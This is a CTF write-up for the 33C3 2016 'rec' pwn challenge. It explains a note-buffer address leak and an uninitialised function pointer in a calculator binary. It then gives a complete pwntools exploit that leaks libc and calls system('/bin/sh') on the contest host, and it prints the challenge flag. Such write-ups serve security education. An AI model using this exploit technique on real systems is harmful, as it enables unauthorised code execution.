 ```yaml
---
title: 33C3 CTF 2016 -- rec
comments: true
permalink: "/:title/"
date: 2016-12-30 01:38
tags:
- 33C3
- CTF
- Python
- Pwnable
categories:
- write-ups
---
```


**Category:** pwn  
**Points:** 200

<!-- more -->  

32 bit ELF, with all the protection enabled.

program menu:
```
$ ./rec 
Calculators are fun!
0 - Take note
1 - Read note
2 - Polish
3 - Infix
4 - Reverse Polish
5 - Sign
6 - Exit
> 
```
* Take note: input a note
* Read note: output the note
* Polish: do the `sum` operation or the elementary arithmetic (prefix expression)
* Infix: do the elementary arithmetic (infix expression)
* Reverse Polish: do the elementary arithmetic (postfix expression)
* Sign: input a number and see if it is a positive/negative number

First we found that the `Read note` function doesn't work well:
```
$ ./rec 
Calculators are fun!
0 - Take note
1 - Read note
2 - Polish
3 - Infix
4 - Reverse Polish
5 - Sign
6 - Exit
> 0
Your note: 123
0 - Take note
1 - Read note
2 - Polish
3 - Infix
4 - Reverse Polish
5 - Sign
6 - Exit
> 1
Your note:�VXV`�s��`XV     <-- WTF?
```

This is because the program use a stack address as the `note`'s buffer. After we take a note and leave the function, the buffer will be filled with some (useful) addresses (due to the function epilogue). And because of this, we're able to leak the stack address & text's base address.

Now it's time to try controlling the EIP. There's a program logic vulnerability in the `sign` function:
```c 
  if ( num <= 0 )
  {
    if ( num < 0 )
      v1 = (void (*)(void))puts_negative;
  }
  else
  {
    v1 = (void (*)(void))puts_positive;
  }
  v1();
```
It handles both positive & negative numbers. **But what about `0`** ?
```
$ ./rec 
Calculators are fun!
0 - Take note
1 - Read note
2 - Polish
3 - Infix
4 - Reverse Polish
5 - Sign
6 - Exit
> 5
0
[1]    40091 segmentation fault (core dumped)  ./rec
```
The reason why the program crash is because the program did not assigned a value to `v1` (since it did not handle `0`), so when it ran to line `v1()`, it will set the EIP to `0x0` and crash the program. Let's check the assembly code:
```
0x56555d3b:  mov    eax,DWORD PTR [ebp-0x20]   <-- &v1 = ebp-0x20
0x56555d3e:  call   eax
```
It shows that if we can control the value of `[ebp-0x20]`, we'll be able to control the EIP and hijack the program control flow.

I found that the stack frame of the `sign` function is "higher" (or "lesser") than the other functions. If we can't "reach that high" in other functions, we won't be able to control the function pointer. 

After done some fuzzing, I finally found that in the `Polish` function, if we do the `sum` operation and keep entering number, the program will keep pushing number to the stack, making us able to "reach the height" and control the function pointer (and the parameters !) in the `sign` function.

So here's how we gonna exploit the service:
1. Take a note & Read the note, leak the text's base address
2. Use `Polish`'s `sum` operation to control the function pointer & the function parameter. We first set the function pointer to `puts` and the parameter to `__libc_start_main@got` (there's no `.got.plt` due to the **FULL RELRO** protection)
3. Goto `sign` function and input `0`, it will call `puts(__libc_start_main@got)` and gave us the libc's base address
4. Repeat step 2, this time we set the function pointer to `system` and the parameter to "pointer to /bin/sh"
5. Goto `sign` function and input `0`, call `system("/bin/sh")` and get the shell

Here's the exploit. The libc's information are provided by [libc-database](https://github.com/niklasb/libc-database)
```python
#!/usr/bin/env python

from pwn import *
import subprocess
import sys
import time
import numpy

HOST = "78.46.224.74"
PORT = 4127
ELF_PATH = "./rec"
LIBC_PATH = ""

# setting 
context.arch = 'i386'
context.os = 'linux'
context.endian = 'little'
context.word_size = 32
# ['CRITICAL', 'DEBUG', 'ERROR', 'INFO', 'NOTSET', 'WARN', 'WARNING']
context.log_level = 'INFO'

elf = ELF(ELF_PATH)

def take_note(note):
    r.sendlineafter("> ", "0")
    r.sendlineafter("note: ", note)

def read_note():
    r.sendlineafter("> ", "1")

def polish_sum(nums):
    r.sendlineafter("> ", "2")
    r.sendlineafter("Operator:", "S")
    for num in nums:
        print "adding:", num
        r.sendlineafter("Operand:", str(num))

    r.sendlineafter("Operand:", ".")

def sign(num):
    r.sendlineafter("> ", "5")
    r.sendline(str(num))


if __name__ == "__main__":

    r = remote(HOST, PORT)
    #r = process(ELF_PATH)
    
    take_note("123")
    read_note()

    r.recvuntil("note: ")
    fptr_addr = u32(r.recv(4)) - 0x350 # where the function pointer be loaded
    text_base = u32(r.recv(4)) - 0x6fb
    puts = text_base + 0x520
    lsm_got = text_base + 0x2fe0
    puts_got = text_base + 0x2fd8
    
    log.success("fptr_addr: "+hex(fptr_addr))
    log.success("text_base: "+hex(text_base))

    nums = [i for i in xrange(0x63)] + [puts, lsm_got]
    polish_sum(nums)

    sign(0) # this will call puts(lsm_got)
    lsm_addr = u32(r.recv(4))
    #########################################
    #$ ./dump libc6-i386_2.24-3ubuntu2_amd64
    #offset___libc_start_main = 0x00018180
    #offset_system = 0x0003a8b0
    #offset_str_bin_sh = 0x15cbcf
    #########################################
    system_addr = lsm_addr + 0x22730 
    bin_sh = lsm_addr + 0x144a4f 
	
    log.success("lsm: "+hex(lsm_addr))
    log.success("system: "+hex(system_addr))
    log.success("bin_sh: "+hex(bin_sh))

    nums = [i for i in xrange(0x63)] + [numpy.int32(system_addr), numpy.int32(bin_sh)]
    polish_sum(nums)
    sign(0) # this time will call system("/bin/sh")
    
    r.interactive()
```

The flag is in `/challenge/flag.txt`

flag: `33C3_L0rd_Nikon_would_l3t_u_1n`
